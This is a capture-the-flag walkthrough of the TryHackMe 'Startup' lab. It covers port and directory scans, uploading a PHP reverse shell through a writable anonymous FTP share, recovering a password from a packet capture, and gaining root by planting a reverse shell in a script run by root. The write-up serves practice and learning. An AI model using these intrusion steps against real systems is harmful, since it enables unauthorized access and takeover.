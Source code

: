 ```bash
# PLATFORM          . THM
# CTF NAME          . Startup
# DESCRIPTION       . Abuse traditional vulnerabilities via untraditional means.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/startup
```

```bash
sudo nmap -sSVC -T5 10.10.28.224 -p- -oN Startup
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.11.53.46
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9a60b841d2201a401304843612bab94 (RSA)
|   256 ec13258c182036e6ce910e1626eba2be (ECDSA)
|_  256 a2ff2a7281aaa29f55a4dc9223e6b43f (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- I also started fuzzing the webserver in the meanwhile.

```bash
ffuf -u http://10.10.28.224/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```
files                   [Status: 301, Size: 312, Words: 20, Lines: 10]
```

- FTP supports anonymous login. However, both files are also present in the `/files` web directory, so we can grab them either way.

```notice.txt
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

- Alright. What I understand here is that this FTP was meant to be left public (anonymous). But we got an username: `maya`.

- A simple `binwalk -e` on the `important.jpg` will reveal that it has a chunk `zlib compressed data` inside it. 

- I don't have any idea if there's a tool that could help me with that and I've called my best friend, Python :) 

```python
import zlib

input_file = '39.zlib'
output_file = 'data.txt'

with open(input_file, 'rb') as compressed_file:
    compressed_data = compressed_file.read()

decompressed_data = zlib.decompress(compressed_data)

with open(output_file, 'wb') as output:
    output.write(decompressed_data)

print(f"Data written to {output_file}")
```

- But I encountered some ugly errors, and, from the research I've done, either the data is corrupted or I'm too dumb to make this work.

```
zlib.error: Error -3 while decompressing data: incorrect header check
```

- I started looking back the way I came from, thinking that maybe I've missed something. 

- I have noticed that we have `write access` to the `FTP` folder. Since we already know that everything there will end up on the webserver in `/files`, let's go ahead and try uploading a revshell.

```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp

-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

```
cd ftp
250 Directory successfully changed.

ftp> put shell.php shell.php

local: shell.php remote: shell.php
200 EPRT command successful. Consider using EPSV.
150 Ok to send data.

226 Transfer complete.

ftp> exit
```

- The shell is available at `ip/files/ftp/shell.php`

- The first flag is in `/recipe.txt`.

- In the same directory, there's an uncommon directory called `incidents` with a file `suspiucious.pcapng`

- I've moved the file to `/var/www/html/files/ftp` and downloaded it on my machine.

- After some analysis, I've noticed that in the HTTP traffic there was a previous attempt to get a reverse shell on the server.

![[Pasted image 20231125214019.png]]

- The `shell.php` file could also be viewed from `File -> Export Objects -> HTTP`

- If we follow the TCP-Stream of those packets, we end up with packet 215 (tcp stream 7), where we can find the password of user `lennie

```bash
www-data@startup:/home$ cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3
```

- The first flag is in `/home/lennie/user.txt`.

- The privilege escalation was rather straight forward. Inside lennie's home directory, there is a directory called `scripts`.

- Inside that, we find a bash script called `planner.sh` that is owned by root.

```
lennie@startup:~/scripts$ ls -l .

-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
```

```planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

- However, the script called at the end, `print.sh`, is owned (thus editable) by lennie. 

- Edit the `/etc/print.sh` file with a `bash reverse shell` and start up a listener on the attack box. 

- The last flag is in `/root/root.txt`
